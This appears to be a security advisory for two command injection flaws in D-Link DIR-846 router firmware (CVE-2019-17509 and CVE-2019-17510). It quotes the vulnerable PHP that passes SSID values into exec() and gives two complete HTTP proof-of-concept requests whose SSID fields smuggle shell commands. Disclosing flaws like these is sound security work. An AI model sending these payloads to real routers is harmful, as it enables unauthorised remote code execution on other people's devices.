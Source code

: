 # info of vulnerability
There are remote RCE vulnerabilities in D-Link router due to invalid sanitization so attackers could execute arbitrary code. 

Vulnerable targets include but are not limited to the lastest firmware versions of DIR-846(100A35)

## First CVE-2019-17509
The first vulnerable code is in file /squashfs-root/www/HNAP1/control/SetMasterWLanSettings.php.
```php
          ......
11        $data["ssid0"] = trim($option["wl(1).(0)_ssid"]);
          .....
14        $data["ssid1"] = trim($option["wl(0).(0)_ssid"]);
          ......
70        $unicode_2 = $data["ssid1"];
71        exec("ssid_code set B2 2 ssid_tmp1 '" . $unicode_2 . "'");
72        $unicode_5 = $data["ssid0"];
73        exec("ssid_code set B5 0 ssid_tmp2 '" . $unicode_5 . "'", $str, $status2);
          ......
```
In page \/Wireless.html ,attacker could inject evil command into `exec` function, so PoC1 is:
```
POST /HNAP1/ HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:49.0) Gecko/20100101 Firefox/49.0
Accept: application/json
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Content-Type: application/json
SOAPACTION: "http://purenetworks.com/HNAP1/SetPasswdSettings"
HNAP_AUTH: D34C44D78E0DA072AE4E94B67361E182 1534384217127
Referer: http://192.168.0.1/account.html
Content-Length: 110
Cookie: loginpass=202cb962ac59075b964b07152d234b70; PHPSESSID=e5c635efde382dd2dd21a62b6649278f; uid=ac08Gage; PrivateKey=D7D42B5B2E20D9F30C0D44920DC56A58
DNT: 1
X-Forwarded-For: 8.8.8.8
Connection: close

{"SetMasterWLanSettings":{"wl(0).(0)_enable":"1","wl(0).(0)_ssid":"2.4'&&ifconfig>'/www/a.txt","wl(0).(0)_preshared_key":"aXJrZXJPZ2dNVEl6TkRVMk56Zz0=","wl(0).(0)_crypto":"aestkip","wl(1).(0)_enable":"0","wl(1).(0)_ssid":"5.0","wl(1).(0)_preshared_key":"aXJrZXJPZ2c=","wl(1).(0)_crypto":"none"}}
```
After this request,you can see the results from `ifconfig` in a.txt
![a.txt](a.jpg)

## Second CVE-2019-17510
The second vulnerable code is in file /squashfs-root/www/HNAP1/control/ SetWizardConfig.php.
```php
           ......
130        $data["ssid0"] = trim($option["wl(1).(0)_ssid"]);
           ......
134        $data["ssid1"] = trim($option["wl(0).(0)_ssid"]);
           ......
185        $unicode_2 = $data["ssid1"];
186        exec("ssid_code set B2 2 ssid_tmp1 $unicode_2");
187        $unicode_5 = $data["ssid0"];
188        exec("ssid_code set B5 0 ssid_tmp2 $unicode_5");
           ......
```
Attacker could also inject evil command into `exec` function easily, so PoC2 is:
```
POST /HNAP1/ HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:49.0) Gecko/20100101 Firefox/49.0
Accept: application/json
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Content-Type: application/json
SOAPACTION: "http://purenetworks.com/HNAP1/SetPasswdSettings"
HNAP_AUTH: D34C44D78E0DA072AE4E94B67361E182 1534384217127
Referer: http://192.168.0.1/account.html
Content-Length: 110
Cookie: loginpass=202cb962ac59075b964b07152d234b70; PHPSESSID=e5c635efde382dd2dd21a62b6649278f; uid=ac08Gage; PrivateKey=D7D42B5B2E20D9F30C0D44920DC56A58
DNT: 1
X-Forwarded-For: 8.8.8.8
Connection: close

{"SetWizardConfig":{"wl(1).(0)_ssid":"aaa&&touch /www/a.txt","wl(0).(0)_ssid":"aaa&&touch /www/a.txt"}}
```
